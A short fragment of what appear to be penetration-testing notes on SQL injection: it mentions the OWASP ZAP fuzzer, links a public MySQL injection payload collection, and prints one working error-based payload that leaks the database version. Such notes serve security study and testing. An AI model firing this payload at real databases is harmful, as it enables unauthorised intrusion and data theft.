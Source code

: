 ## Owasp ZAP
```
fuzzer
```

## Payloads
- Link of advanced sqlinjection payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection

## ErrorBased SQLI

- 

' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT        <<<version()>>>            )s), 8446744073709551610, 8446744073709551610)))#


